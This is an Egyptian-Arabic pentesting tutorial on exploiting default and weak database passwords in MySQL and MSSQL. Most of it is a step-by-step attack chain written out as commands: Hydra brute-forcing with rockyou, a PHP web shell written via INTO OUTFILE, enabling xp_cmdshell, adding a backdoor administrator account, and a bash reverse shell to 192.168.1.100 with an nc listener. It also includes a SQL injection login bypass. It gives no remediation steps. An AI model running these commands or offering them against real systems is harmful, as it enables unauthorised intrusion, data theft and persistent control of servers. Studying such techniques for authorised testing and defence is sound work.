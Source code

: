 # **1. إيه يعني Using Default Credentials or Weak Passwords for Database Authentication؟**

## **الشرح العميق:**
يعني إن قاعدة البيانات (زي MySQL، MSSQL، PostgreSQL) بتستخدم كلمات سر افتراضية (Default Credentials) أو كلمات سر ضعيفة جدًا (Weak Passwords) للمستخدمين بتوعها. "Default Credentials" هي اللي بتيجي جاهزة مع البرنامج (زي `root` بدون كلمة سر في MySQL أو `sa` بكلمة سر `admin` في MSSQL)، و"Weak Passwords" هي حاجة زي `1234` أو `password`. المشكلة إن المهاجمين بيعرفوا القيم الافتراضية دي، وكلمات السر الضعيفة بتكون سهلة التخمين، فلو ما اتغيرتش أو اتعملت أقوى، بيبقى الباب مفتوح لأي حد يدخل.

- ء **Default Credentials:** زي `root:` (فاضي) أو `sa:sa`.
- ء **Weak Passwords:** زي `admin123` أو `dbpass`.

## طرق اكتشافها :
### 1. **فحص MySQL:**
   - `mysql -u root -p -h 192.168.1.10` -> اضغط Enter بدون كلمة سر.
   - لو دخلت: `SHOW DATABASES;` -> يعني root مفتوح.

### 2. **فحص MSSQL:**
   - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
   - لو نجحت، شغل: `SELECT @@VERSION;` -> يعني sa مفتوح.

### 3. **تخمين كلمات سر ضعيفة:**
   - بـ Hydra:
     - `hydra -l root -P /path/to/wordlist.txt mysql://192.168.1.10`.
     - لو لقيت `root:1234`، يبقى ضعيف.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب باب البيت مفتوح أو حاطط مفتاح تحت الدواسة وكاتب عليه `خش`! Default Credentials زي كلمة السر اللي بتيجي مع العربية، وWeak Passwords زي ما تكتب `123` وتقول محدش هيعرفها."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الكلمات الافتراضية أو الضعيفة بتخلّي أي حد يقدر يدخل قاعدة البيانات بسهولة، وبما إن قاعدة البيانات فيها كل حاجة مهمة (زي بيانات العملاء، كلمات السر، أو معلومات الشركة)، المهاجم يقدر:
- **يسرق البيانات:** ياخد كل حاجة في الجداول.
- **يعدل أو يمسح:** يخرب النظام أو يغير بيانات.
- **يصعد صلاحيات:** لو قاعدة البيانات متصلة بالسيرفر، يقدر ياخد Shell أو يتحكم في النظام كله.

في الـ Pentesting، دي من أسهل الثغرات اللي بتلاقيها، لأن كتير من المسؤولين بيسيبوا الكلمات الافتراضية أو يحطوا حاجة ضعيفة وينسوا يغيروها.

## طرق استغلالها لو لقتها :
### 1. **استغلال MySQL Default:**
   - `mysql -u root -h 192.168.1.10` -> لو دخلت:
     - `SELECT * FROM mysql.user;` -> تسريب بيانات المستخدمين.
     - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`.

### 2. **استغلال MSSQL sa:**
   - `sqlcmd -S 192.168.1.10 -U sa -P "sa"`.
   - `EXEC xp_cmdshell 'whoami';` -> لو رجع `system`، يبقى سيطرت.

### 3. **SQL Injection للتخمين:**
   - `http://192.168.1.10/login.php?user=admin' OR 1=1 -- &pass=123`.
   - لو دخلت، يبقى التطبيق بيستخدم كلمة سر ضعيفة.

## **خلاصة بالعامية المصرية:**
"المشكلة دي خطيرة لأنها زي ما تكون سايب خزنة فلوسك مفتوحة وكاتب الكود جنبها! المهاجم يخش، ياخد كل حاجة، ولو لقى طريق للسيرفر، يبقى هو الباشا بتاعك."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الكلمات الافتراضية أو الضعيفة عشان تدخل قاعدة البيانات وتاخد وصول أعلى.
- **مثال واقعي:** لو لقيت MySQL مفتوح كـ root، تكتب Shell وتتحكم في السيرفر.

## **خلاصة بالعامية المصرية:**
"لما تلاقي كلمة سر زي دي، زي ما تكون لقيت مفتاح الباب في جيبك! بتستخدمه عشان تفتح كل حاجة وتبقى الكبير بتاع المكان."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 3306: MySQL 5.7.
  - Port 1433: MSSQL.

## **الخطوة 2: تجربة Default Credentials**
- MySQL:
  - `mysql -u root -p -h 192.168.1.10` -> Enter بدون كلمة سر.
  - أو: `mysql -u root -proot -h 192.168.1.10`.
- MSSQL:
  - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
  - أو: `sqlcmd -S 192.168.1.10 -U sa -P "sa"`.

## **الخطوة 3: تخمين Weak Passwords**
- لو ما نجحتش:
  - `hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.1.10`.
  - أو لـ MSSQL:
    - `hydra -l sa -P /usr/share/wordlists/rockyou.txt mssql://192.168.1.10`.

## **الخطوة 4: استغلال الوصول**
- في MySQL (لو دخلت كـ root):
  - `SELECT * FROM mysql.user;` -> تسريب بيانات.
  - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`.
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> `www-data`.
- في MSSQL (لو دخلت كـ sa):
  - `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`.
  - `EXEC xp_cmdshell 'net user hacker pass123 /add';`.

## **الخطوة 5: تصعيد الصلاحيات**
- من Shell في لينكس:
  - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `id` -> `sudo -l` -> تصعد لو لقيت حاجة.
- في ويندوز:
  - `EXEC xp_cmdshell 'net localgroup administrators hacker /add';`.
  - سجل دخول بـ `hacker:pass123`.

## **الخطوة 6: توثيق**
- سجل كلمات السر اللي نجحت (زي `root:` أو `sa:sa`).
- قدم تقرير يوضح إزاي دخلت وخطر الثغرة.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مفتاح الباب في التراب، فتحته، خدت كل حاجة، وطلعت الكبير بتاع الحتة! الكلمات الضعيفة دي طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Using Default Credentials or Weak Passwords for Database Authentication هي ثغرة خطيرة لأنها بتخلّي قاعدة البيانات مفتوحة لأي حد. في الـ Pentesting، دور عليها بـ Nmap وHydra، استغلها عشان تدخل، تسرق بيانات، أو تاخد Shell، ووري العميل إن نظامه زي بيت من غير قفل! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!
